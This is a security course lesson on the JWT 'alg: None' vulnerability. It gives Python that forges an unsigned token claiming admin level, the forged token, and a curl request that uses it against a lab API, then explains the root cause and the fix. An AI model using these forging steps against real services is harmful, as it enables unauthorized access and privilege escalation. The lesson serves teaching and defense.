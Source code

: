 # Bypass of correct validation with `alg` change to None

### Algorithms and None

Now that we've learned some about the structure and contents of JWTs, we're going to get into the fun stuff. The reminder of this lesson will guide you through two different vulnerabilities that were found in the JWT spec that, without the knowledge of how to avoid them, could allow an attacker to bypass the control completely (or inject their own information into the claims).

In this first vulnerability, we're going to focus on the `alg` setting in the header JSON. While the JWT specification includes information about the HMAC and RSA signature generation methods, it also includes an "interesting" value: the `None` algorithm. In essence, this algorithm was designed to allow the creation of completely trusted tokens that do not require signature validation. In practical application, this essentially means that, regardless of what the signature is, there's no reason to validate it.

This is a huge problem considering that it's so easy for an attacker to change the JWT header to `alg:"None"` and bypass the signature checking completely, allowing an attacker to update the content as much as they want.

### Performing the attack

Lets see how we can perform this exploit on our example "Users" API. First, so ahead and make a request to the `{$VIRTUAL_HOST}/login` endpoint as a `POST` request and send the following information:

```
username=user1&password=test1234
```

This should successfully log you in and return a `message` value with a `token`. This is the JWT token for your current session. You can then [decode it](https://jwt.io/) and find that the `alg` value is `HS256` meaning it will use HMAC hashing for the signature. In a normal situation, we'd need to know the secret to update the signature, but we don't even need that with `alg:"None"`.

Take the `header` and `claims` payload and recreate the first to parts of the token:

```python
import base64
header = base64.b64encode('{"alg": "None", "type": "JWT"}'.encode('utf-8'))
payload = base64.b64encode('{"claims": {"username": "user1", "level": "admin"}}'.encode('utf-8'))
```

These `header` and `payload` values can then be combined along with an empty signature and used as the token:

```
eyJhbGciOiAiTm9uZSIsICJ0eXBlIjogIkpXVCJ9.eyJjbGFpbXMiOiB7InVzZXJuYW1lIjogInVzZXIxIiwgImxldmVsIjogImFkbWluIn19.
```

Since we're changing the `alg` the system will use to verify the signature, it doesn't matter if it exists or not. Just make sure the token ends in a period so the parser will correctly see it as having three parts (one of the first things many check for).

Make a request to the `{$VIRTUAL_HOST}/users` endpoint using this token as the `X-Auth-Token` header value and see what you get:

```
curl --request GET --url {$VIRTUAL_HOST}/users \
  --header 'X-Auth-Token: eyJhbGciOiAiTm9uZSIsICJ0eXBlIjogIkpXVCJ9.eyJjbGFpbXMiOiB7InVzZXJuYW1lIjogInVzZXIxIiwgImxldmVsIjogImFkbWluIn19.'
```

Since we updated the `level` value in the token's claims to `admin` you should receive a full listing of both users, not just your own information.

### Why does this work?

This attack works for two reasons. First, the functionality that is being used to parse the incoming token has implemented all of the possible algorithms, including `None`. Second, it is blindly using the algorithm defined in the token, assuming it's the one that's intended without doing any secondary verification.

When this issue was first brought more into the public eye (see [this report](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/)) several of the more widely used libraries implemented a secondary check that compares the algorithm on the incoming token against the one desired. It then can fail immediately if those don't match, preventing any further bypass. If you find yourself working on JWT functionality or making a package of your own, it would be in your best interested to include this kind of secondary check (and potentially just not supporting `None` at all).

Later in this lesson we'll be covering how to correct this issue making use of an up-to-date package to replace our custom logic.
